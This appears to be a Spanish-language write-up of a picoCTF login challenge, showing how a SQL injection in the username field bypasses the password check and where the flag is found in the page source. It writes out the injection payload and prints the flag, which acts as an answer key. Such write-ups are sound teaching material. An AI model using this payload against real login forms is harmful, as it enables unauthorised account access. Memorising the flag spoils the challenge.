 # Descripción
Can you login to this website?Try to login [here](http://saturn.picoctf.net:58127/).
Hints:
1. `admin` is the user you want to login as.
# Solución
- Entramos a la página
- Intentamos logearnos con cualquier dato para ver como funciona
- Veremos que recibe el nombre y después la contraseña
```
SELECT * FROM users WHERE name='admin' AND password='admin'
```
- Entonces hacemos una inyección SQL en el espacio del nombre 
```
SELECT * FROM users WHERE name='1' OR '1'=='1';--' AND password='ajnas'
```
- En la página nos dirá que nos hemos logeado pero aún no podremos ver la bandera
- Entonces inspeccionamos la página y encontraremos la bandera 
```
Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}

picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
```
# Notas adicionales
# Referencias